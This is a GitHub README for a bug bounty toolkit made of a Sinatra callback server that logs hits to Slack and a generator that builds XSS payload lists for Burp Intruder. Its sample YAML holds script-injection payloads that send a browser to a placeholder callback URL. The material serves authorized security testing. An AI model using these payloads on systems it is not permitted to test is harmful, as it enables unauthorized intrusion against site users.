 # :boom: Bug bounty in a box

This repository contains all\* that you should need to get up and running to test for bugs against your targets.

\* Ok, literally not _everything_ but it's a good start!

## Project Status

This is by no means "production ready"; there are still some server configuration options that need to be explored before this should be run in production.

## Quickstart

To get up & hacking, you'll need to:

1. Move the configuration sample: `mv config/application.yml.sample config/application.yml`
1. Edit the `config/application.yml` to your preferences
1. Install the gems: `bundle install`
1. Start the server: `ruby app.rb`
1. Move the payload sample: `mv payloads/xss.yml.sample payloads/xss.yml`
1. Generate the payloads: `ruby generate_payloads.rb --callback=YOUR_SERVER_URL --target=YOUR_TARGET`
1. Use `payloads/xss.txt` in Burp's Intruder (or something similar)
1. Cross your fingers...
1. Profit!

## How does this work?

This "bug bounty in a box" has two different components:
1. A payload callback server
1. A payload generator

### Callback Server

The callback server, written in Ruby & using [Sinatra](http://sinatrarb.com/), currently has the following capabilities:

* Callback: A callback with a payload & target parameter will log the "callback" to a on-server text log as well as send a Slack message to a Slack webhook. (`/callback`)
* Redirect: Redirects to a specified URL in the redirect GET parameter. (`/redirect`)

#### Configuring the server

You can configure the server in `config/application.yml`! See below for the different configuration options.

##### Slack

In order to receive Slack callbacks, you'll need to set the appropriate `slack_url`. To generate an incoming webhook for your Slack instance, check out [Slack's Help Center](https://get.slack.help/hc/en-us/articles/115005265063-Incoming-WebHooks-for-Slack).

##### Logging

If you'd like to change either the frequency of the log rotation or the log filenames, check out the configuration file.

### Payload Generator

The payload generator uses `.yml` files to generate a `.txt` files that contain a list of payloads that can be used in a tool like Burp Intruder.

#### Running the payload generator

Before running the payload generator, make sure you have some properly formatted `.yml` files in the `payloads` folder! After you've done that, you'll need to run the payload generator with the `--callback` and `--target` flags like such:

```bash
ruby generate_payloads.rb --callback=localhost:4567/callback --target=www.example.com
```

Then, check out the `payloads` folder for the `.txt` file with a list of payloads!

#### Configuring payloads

In order to add a new class of payloads, just create a new `.yml` file with the following:

```yaml
name: XSS
payloads:
  - description: A simple XSS payload
    payload: <script>document.location='CALLBACK_URL'</script>
  - payload: <script>document.location="CALLBACK_URL"</script>
```

The `CALLBACK_URL` will be replaced with whatever is passed in with the `--callback` flag with some added parameters of (1) a callback description & (2) the target.

## Contributing

Want to contribute? Great! Here's what you do:

1. Fork this repository
1. Push some code to your fork
1. Come back to this repository and open a PR
1. After some review, get that PR merged to master
1. :tada: Thank you for your contribution!!

Feel free to also open an issue with any bugs/comments/requests!
